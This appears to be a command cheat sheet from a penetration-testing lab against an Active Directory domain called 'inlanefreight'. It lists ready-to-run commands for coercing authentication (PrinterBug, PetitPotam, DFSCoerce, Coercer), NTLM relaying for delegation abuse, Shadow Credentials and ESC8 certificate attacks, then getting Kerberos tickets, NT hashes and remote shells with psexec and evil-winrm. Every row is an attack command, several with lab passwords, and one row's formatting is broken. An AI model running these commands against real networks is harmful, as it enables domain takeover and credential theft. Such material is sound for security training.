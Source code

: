 
## Coerce Authentication

| `Command` | `Description` |
| --- | --- |
| `python3 printerbug.py inlanefreight/plaintext$:'o6@ekK5#rlw2rAe'@172.16.117.3 172.16.117.30` | Abuse MS-RPRN PrinterBug to coerce authentication |
| `python3 PetitPotam.py 172.16.117.30 172.16.117.3 -u 'plaintext$' -p 'o6@ekK5#rlw2rAe' -d inlanefreight.local` | Abuse MS-EFSR PetitPotam to coerce authentication |
| `python3 dfscoerce.py -u 'plaintext$' -p 'o6@ekK5#rlw2rAe' 172.16.117.30 172.16.117.3` | Abuse MS-DFSNM DFSCoerce to coerce authentication |
| `Coercer scan -t 172.16.117.50 -u 'plaintext$' -p 'o6@ekK5#rlw2rAe' -d inlanefreight.local -v` | Coercer Scan Mode |
| `Coercer coerce -t 172.16.117.50 -l 172.16.117.30 -u 'plaintext$' -p 'o6@ekK5#rlw2rAe' -d inlanefreight.local -v --always-continue` | Coercer coerce Mode |

---

## Kerberos RBCD Abuse

| `Command` | `Description` |
| --- | --- |
| `ntlmrelayx.py -t ldaps://INLANEFREIGHT\\'SQL01$'@172.16.117.3 --delegate-access --escalate-user 'plaintext$' --no-smb-server --no-dump` | Kerberos RBCD Abuse |
| `getST.py -spn cifs/sql01.inlanefreight.local -impersonate Administrator -dc-ip 172.16.117.3 "INLANEFREIGHT"/"plaintext$":"o6@ekK5#rlw2rAe"` | Generate a Ticket |
| `KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass sql01.inlanefreight.local` | Use the ticket to connect to the target machine using psexec.py |

---

## Shadow Credentials

| `Command` | `Description` |
| --- | --- |
| `ntlmrelayx.py -t ldap://INLANEFREIGHT.LOCAL\\CJAQ@172.16.117.3 --shadow-credentials --shadow-target jperez --no-da --no-dump --no-acl` | Execute Shadow Credentials attack, wait for CJAQ account authentication and target jperez account |
| `python3 gettgtpkinit.py -cert-pfx rbnYdUv8.pfx -pfx-pass NRzoep723H6Yfc0pY91Z INLANEFREIGHT.LOCAL/jperez jperez.ccache` | Loading certificate and key from file |
| `KRB5CCNAME=jperez.ccache evil-winrm -i dc01.inlanefreight.local -r INLANEFREIGHT.LOCAL` | Use the ticket to connect to the target machine using EvilwinRM |

---

## ESC8 Attacks Targeting AD CS

| `Command` | `Description` |
| --- | --- |
| `crackmapexec ldap 172.16.117.0/24 -u 'plaintext$' -p 'o6@ekK5#rlw2rAe' -M adcs` | Enumerate ADCS Servers |
| `crackmapexec ldap 172.16.117.3 -u plaintext$ -p 'o6@ekK5#rlw2rAe' -M adcs -o SERVER=INLANEFREIGHT-DC01-CA` | Enumerate ADCS Certificates |
| `certipy find -enabled -u 'plaintext$'@172.16.117.3 -p 'o6@ekK5#rlw2rAe' -stdout` | Enumerate the CA configuration with Certipy |
| `ntlmrelayx.py -t http://172.16.117.3/certsrv/certfnsh.asp -smb2support --adcs --template Machine` | Perform AD CS Relay Attacks to a Machine |
| `python3 printerbug.py inlanefreight/plaintext$:'o6@ekK5#rlw2rAe'@172.16.117.50 172.16.117.30` | Coerce SMB NTLM Authentication using printerbug.py |
| \`echo -n "MIIRPQIBAzCCEPcGCSqGSIb3DQEHAaCCEOgg==" | base64 -d > ws01.pfx\` |
| `python3 gettgtpkinit.py -dc-ip 172.16.117.3 -cert-pfx ws01.pfx 'INLANEFREIGHT.LOCAL/WS01$' ws01.ccache` | Use gettgtpkinit.py to Request the TGT and AS-REP Encryption Key |
| `KRB5CCNAME=ws01.ccache python3 getnthash.py 'INLANEFREIGHT.LOCAL/WS01$' -key 917ec3b9d13dfb69e42ee05e09a5bf4ac4e52b7b677f1b22412e4deba644ebb2` | Retrieve the NT Hash of WS01$ using getnthash.py |

---